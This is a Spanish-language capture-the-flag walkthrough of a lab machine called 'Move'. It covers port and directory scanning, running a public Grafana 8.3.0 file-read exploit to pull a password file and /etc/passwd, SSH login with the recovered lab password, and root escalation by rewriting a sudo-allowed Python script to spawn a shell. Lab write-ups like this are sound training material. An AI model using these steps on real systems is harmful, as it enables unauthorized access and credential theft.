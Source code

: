 Maquina: Move

Autor: El Pinguino de Mario

Dificultad: Facil

![Screenshot 2024-11-14 182124](https://github.com/user-attachments/assets/ba30a676-672a-4ec8-ae50-10572cfde490)

ping 172.17.0.2 -c 1

![Screenshot 2024-11-14 190703](https://github.com/user-attachments/assets/48c308b4-634e-480b-821c-37775f04516c)

Hacemos un escaneo de puertos y servicios detallado con nmap

nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

El puerto 22 perteneciente al servicio SSH y el puerto 80 perteneciente al servicio HTTP y el puerto 3000 están abiertos

![Screenshot 2024-11-14 190720](https://github.com/user-attachments/assets/101b95b4-4844-4090-af75-8897c2d26206)

volvemos a scanear con nmap para obtener más información sobre esos puertos específicamente

sudo nmap -sCV -p22,80,3000 -v 172.17.0.2

![Screenshot 2024-11-14 191016](https://github.com/user-attachments/assets/77d20fe7-c9e9-4d4c-ac0a-4b2cac0da068)

El puerto 80 y el 3000 podemos encontrar servicios web y en el 3000 nos aparece una redirección a un panel de Login. 

![Screenshot 2024-11-14 190907](https://github.com/user-attachments/assets/41bc539a-7660-4a74-8f6e-dd065c47ea83)

![Screenshot 2024-11-14 190926](https://github.com/user-attachments/assets/748e135b-d660-4227-b5de-428e9d08ea61)

Buscamos directorios con la herramienta Gobuster

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://172.17.0.2

Encontramos un archivo /maintenance.html

![Screenshot 2024-11-14 191143](https://github.com/user-attachments/assets/09a819e7-87c8-44be-8b41-5ae2d56d8800)

Hemos encontrado un encabezado en HTML que revela la ruta de un archivo potencialmente interesante, aunque actualmente no tenemos acceso al sistema para explorarlo más a fondo. Guardaremos esta información para usarla mas adelante.

![Screenshot 2024-11-14 191159](https://github.com/user-attachments/assets/10d83fa9-a34d-4e73-afba-37d17c50e6d8)

enumeramos del puerto 3000

Hemos encontrado un panel de inicio de sesión de Grafana. Lo más notable es que en la parte inferior del panel se muestra la versión específica del servicio.

la versión específica de Grafana que encontramos es vulnerable a un exploit que permite la lectura de archivos en el sistema.

searchsploit grafana 8.3.0

![Screenshot 2024-11-14 191242](https://github.com/user-attachments/assets/d4b790fc-6118-4965-bc28-14b1b3ee31a7)

Encontramos un exploit en exploit.db y lo copiamos

![Screenshot 2024-11-14 191336](https://github.com/user-attachments/assets/7dcdfa16-0e40-4607-b981-81b801cad2ed)

creamos 50581.py y pegamos el exploit

![Screenshot 2024-11-14 191439](https://github.com/user-attachments/assets/a983c99e-f7a0-4555-a9b2-2bb34b86d0e2)

python3 50581.py -H http://172.17.0.2:3000

leemos el archivo /tmp/pass.txt

encontramos una contraseña

![Screenshot 2024-11-14 191701](https://github.com/user-attachments/assets/0cb57d2e-5103-4e38-9982-4d56b5e8a707)

leemos el archivo /etc/passwd

encontramos un usuario

![Screenshot 2024-11-14 192218](https://github.com/user-attachments/assets/8552b79a-e8a3-49f0-ad37-9eb409e2282a)

Vamos a conectarnos vía SSH con el usuario y contraseña

ssh freddy@172.17.0.2

t9sH76gpQ82UFeZ3GXZS

![Screenshot 2024-11-14 192556](https://github.com/user-attachments/assets/9e5d3fae-2379-4379-9412-518102d1970a)

Si hacemos un sudo -l nos aparece lo siguiente

Como podemos ejecutar el script mantienance.py como root lo que podemos hacer es modificar el script y hacer que al ejecutar spawnee una bash como root de la siguiente forma

![Screenshot 2024-11-14 192610](https://github.com/user-attachments/assets/ff893f94-03e5-43fb-94b0-22b2c0e3473c)

vamos hasta el directorio /opt 

nano maintenance.py

![Screenshot 2024-11-14 193917](https://github.com/user-attachments/assets/f96161b4-1e1c-4b27-9831-bd7dc9a9ce49)

import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")

![Screenshot 2024-11-14 194637](https://github.com/user-attachments/assets/c16f1978-226b-4e0b-adf5-6a822f0e54a1)

ejecutamos el archivo

sudo /usr/bin/python3 /opt/maintenance.py

whoami

![Screenshot 2024-11-14 194612](https://github.com/user-attachments/assets/fd4aee46-158b-4fbc-bdfb-bf61bd814563)
